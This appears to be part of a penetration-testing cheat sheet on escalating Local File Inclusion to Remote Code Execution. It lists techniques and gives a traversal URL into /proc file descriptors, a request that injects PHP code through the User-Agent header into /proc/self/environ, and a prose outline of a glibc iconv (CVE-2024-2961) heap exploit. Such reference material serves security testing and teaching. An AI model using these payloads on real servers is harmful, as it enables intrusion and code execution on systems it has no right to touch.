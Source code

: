 # LFI to RCE

> LFI (Local File Inclusion) is a vulnerability that occurs when a web application includes files from the local file system, often due to insecure handling of user input. If an attacker can control the file path, they can potentially include sensitive or dangerous files such as system files (/etc/passwd), configuration files, or even malicious files that could lead to Remote Code Execution (RCE).

## Summary 

- [LFI to RCE via /proc/*/fd](#lfi-to-rce-via-procfd)
- [LFI to RCE via /proc/self/environ](#lfi-to-rce-via-procselfenviron)
- [LFI to RCE via iconv](#lfi-to-rce-via-iconv)
- [LFI to RCE via upload](#lfi-to-rce-via-upload)
- [LFI to RCE via upload (race)](#lfi-to-rce-via-upload-race)
- [LFI to RCE via upload (FindFirstFile)](#lfi-to-rce-via-upload-findfirstfile)
- [LFI to RCE via phpinfo()](#lfi-to-rce-via-phpinfo)
- [LFI to RCE via controlled log file](#lfi-to-rce-via-controlled-log-file)
    - [RCE via SSH](#rce-via-ssh)
    - [RCE via Mail](#rce-via-mail)
    - [RCE via Apache logs](#rce-via-apache-logs)
- [LFI to RCE via PHP sessions](#lfi-to-rce-via-php-sessions)
- [LFI to RCE via PHP PEARCMD](#lfi-to-rce-via-php-pearcmd)
- [LFI to RCE via Credentials Files](#lfi-to-rce-via-credentials-files)


## LFI to RCE via /proc/*/fd

1. Upload a lot of shells (for example : 100)
2. Include `/proc/$PID/fd/$FD` where `$PID` is the PID of the process and `$FD` the filedescriptor. Both of them can be bruteforced.

```ps1
http://example.com/index.php?page=/proc/$PID/fd/$FD
```

## LFI to RCE via /proc/self/environ

Like a log file, send the payload in the `User-Agent` header, it will be reflected inside the `/proc/self/environ` file

```powershell
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```


## LFI to RCE via iconv

Use the iconv wrapper to trigger an OOB in the glibc (CVE-2024-2961), then use your LFI to read the memory regions from `/proc/self/maps` and to download the glibc binary. Finally you get the RCE by exploiting the `zend_mm_heap` structure to call a `free()` that have been remapped to `system` using `custom_heap._free`.
